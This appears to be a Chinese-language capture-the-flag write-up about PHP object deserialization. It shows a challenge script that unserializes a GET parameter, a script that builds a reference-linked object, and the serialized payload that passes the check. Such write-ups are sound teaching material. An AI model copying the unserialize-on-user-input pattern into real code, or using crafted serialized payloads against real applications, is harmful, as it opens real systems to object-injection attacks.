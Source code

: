 考点：对象包含的引用在序列化时也会被存储

题目源码：

```
<?php
class just4fun {
    var $enter;
    var $secret;
}

if (isset($_GET['pass'])) {
    $pass = $_GET['pass'];
    
    if(get_magic_quotes_gpc()){
        $pass=stripslashes($pass);
    }
    
    $o = unserialize($pass);
    
    if ($o) {
        $o->secret = "*";
        if ($o->secret === $o->enter)
            echo "Congratulation! Here is my secret: ".$o->secret;
        else 
            echo "Oh no... You can't fool me";
    }
    else echo "are you trolling?";
?>
```

反序列化后，secret会被重新赋值为一个未知的值，但要求enter跟secret的值一致才能拿到flag。

- 对象包含的引用在序列化时也会被存储

编写脚本：

```
<?php
class just4fun {
    var $enter;
    var $secret;
}

$a= new just4fun;

$a->enter=&$a->secret;

echo serialize($a);
?>
```

执行得到：

```
O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}
```
